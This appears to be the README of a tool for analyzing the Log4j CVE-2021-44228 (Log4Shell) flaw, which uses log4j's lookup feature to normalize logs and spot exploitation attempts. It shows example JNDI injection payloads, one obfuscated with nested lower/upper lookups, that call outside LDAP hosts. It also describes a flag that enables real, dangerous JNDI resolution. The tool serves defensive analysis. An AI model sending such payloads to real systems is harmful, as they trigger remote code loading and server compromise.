 # JndiLookup
Some tool to help analyzing Apache Log4j 2 CVE-2021-44228

This tool uses the "lookup" feature from log4j-2 to test against the JNDI vulnerability.
The objective is to easily run the lookup feature (to normalize logs for example or to do a real testing on some payload - please be cautious).

To build : "make" (for convenience, the JndiLookup.jar file is included in this git).

Once built, you can run the tool with "java -jar JndiLookup.jar" (the log4j directory with log4j binaries must be in the same path as the JndiLookup.jar)

With no argument, the JndiLookup tool read lines from stdin and "convert" them using the log4j lookup feature - this should be useful to normalize logs and search for exploitation attempts
For example : cat access.log | java -jar JndiLookup.jar

If you pass a string to the command line, the tool will convert this string and exists (please escape all the '$' characters).
For example : java -jar JndiLookup.jar java -jar JndiLookup.jar "\${jndi:\${lower:l}\${lower:d}a\${lower:p}://world443.log4j.bin\${upper:a}ryedge.io:80/callback}"

By default, the JNDI lookup is disabled (and replaced by a lookup function that will just add "jndi:" but it's possible to enable the real JNDI lookup by passing the "-X" parameter to JndiLookup ("-X" to be passed as the first parameter) ; PLEASE BE CAUTIOUS with this because it could lead to your system being compromised.
For example : java -jar JndiLookup.jar -X "\${jndi:ldap://w8pcb14reujq65vic39pz9amv.canarytokens.com/a}"

The following lookup are enabled in the log4j binariers used (2.15.0 for standard usage, 2.14.1 for JNDI-enabled usage) :
- log4j
- sys
- env
- main
- marker
- java
- base64
- lower
- upper
- date 
- ctx
Other lookup might be availabled depending on your environment :
- docker
- kubernetes
- spring
- jvmrunargs

[ Please see https://github.com/apache/logging-log4j2/blob/c30a1398a6697fb832c650870c44284d0052103e/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java for details on lookup plugin activation]

Please be aware this tool uses the real code from log4j lookup feature and it could be vulnerable because of other (non-JNDI) security issues.

